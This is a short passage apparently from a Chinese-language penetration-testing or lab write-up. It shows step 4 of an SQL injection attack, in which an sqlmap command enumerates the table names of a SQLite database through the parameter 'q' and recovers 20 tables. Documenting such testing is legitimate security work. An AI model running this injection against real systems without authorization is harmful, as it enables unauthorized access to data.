 ![get](./img_12/exp2/sqlmap2.png)

**4. 尝试注⼊表名，恢复出来20张表的表名**
```
sqlmap -r 123.txt --level 2 -p "q" --dbms='sqlite' --tables --threads 5
```

